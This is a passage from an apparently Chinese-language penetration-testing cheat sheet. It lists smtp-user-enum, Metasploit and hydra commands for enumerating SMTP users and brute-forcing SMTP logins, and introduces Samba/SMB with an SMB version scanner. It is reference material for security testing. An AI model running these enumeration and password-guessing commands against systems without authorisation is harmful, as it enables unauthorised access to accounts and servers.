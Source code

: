 -   MAIL FROM:ftp + RCPT TO:ftp

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200510152040.png-water_print](assets/1699409321-c84616ebaf7669ad991aa45b7f0a9224.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200510152040.png-water_print")

#### [](#smtp-user-enum)SMTP-user-enum

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```cmd<br>apt-get install smtp-user-enum<br>smtp-user-enum -M VRFY -u root -t 202.38.xxx.xxx<br>smtp-user-enum -M VRFY -U dic.txt -t 202.38.xxx.xxx<br>smtp-user-enum -M RCPT -u bin -t 202.38.xxx.xxx<br>smtp-user-enum -M EXPN -u bin -t 202.38.xxx.xxx<br>``` |

#### [](#msf-6)msf

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>auxiliary/scanner/smtp/smtp_enum<br>``` |

### [](#%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3-1)暴力破解

#### [](#hydra-2)hydra

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>hydra -l msfadmin -P passwd.txt smtp://IP<br>``` |

## [](#samba-%E6%BC%8F%E6%B4%9E)Samba 漏洞

### [](#samba-%E7%AE%80%E4%BB%8B)Samba 简介

Samba 是在 Linux 和 UNIX 系统上实现 SMB 协议的一个免费软件，由服务器及客户端程序构成。

### [](#smb-%E7%AE%80%E4%BB%8B)SMB 简介

SMB(Server Messages Block，信息服务块) 是一种在局域网上共享文件和打印机的一种通信协议，它为局域网内的不同计算机之间提供文件及打印机等资源的共享服务。

SMB 协议是客户机/服务器型协议，客户机通过该协议可以访问服务器上的共享文件系统、打印机及其他资源。通过设置 `NetBIOS over TCP/IP` 使得 Samba 不但能与局域网络主机分享资源，还能与全世界的电脑分享资源。

### [](#smb-%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2)SMB 信息泄露

#### [](#msf-7)msf

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>auxiliary/scanner/smb/smb_version<br>``` |
